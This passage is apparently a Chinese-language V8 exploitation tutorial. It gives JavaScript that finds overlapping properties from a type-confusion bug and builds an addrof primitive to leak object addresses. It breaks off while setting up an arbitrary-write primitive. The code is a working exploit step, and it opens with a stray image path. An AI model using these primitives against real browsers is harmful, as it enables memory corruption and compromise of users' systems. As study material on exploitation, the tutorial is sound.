 ```bash
check_vul();
print("[+] Finding Overlapping Properties...");
findOverlapping();
print(`[+] Properties b${p1} and p${p2} overlap!`);
```

很容易可以找到我们需要的两个属性。

```bash
[+] Finding Overlapping Properties...  
[+] Properties b12 and b21 overlap!
```

### Addr Of

`Addrof`是一个在 V8 利用中很常见的原语，用来泄露一个`obj`的地址。当我们有类型混淆漏洞时，这个原语的实现就十分简单，在前面也介绍过。我们将上一步中得到的第一个属性记为`p1`，第二个属性记为`p2`，由于对`p1`的访问实际上是对`p2`内容的访问，设置属性`p1`为`Number`，属性`p2`为想要泄露地址的`Object obj`，通过读取`p1`就可以读取出`obj`的地址。

```bash
function addrof(obj) {
  eval(`
  function vuln(obj) {
    obj.a;
    this.Object.create(obj);
    return obj.b${p1}.x1;
  }
`);


  let values = [];
  values[p1] = { x1: 1.1, x2: 1.2 };
  values[p2] = { y: obj };

  for (let i = 0; i < 10000; i++) {
    let res = vuln(getObj(values));
    if (res != 1.1) {
      print(`[+] Object Address: ${Int64.fromDouble(res).toString()}`);
      return res;
    }
  }
  throw "[!] AddrOf Primitive Failed"
}
```

上面的代码中，`vuln`函数访问了`p1`的`x1`，在产生优化之后，会访问到`p2`的`y`也就是`obj`，从而以浮点数返回`obj`的地址。

### Arbitrary Write

同样，我们可以构造一个`Object`，如下面的`o`，其中的各个属性均为`Number`。

```bash
let o = { x1: 1.1, x2: 1.2 };
  values[p1] = o;
  values[p2] = obj;
```
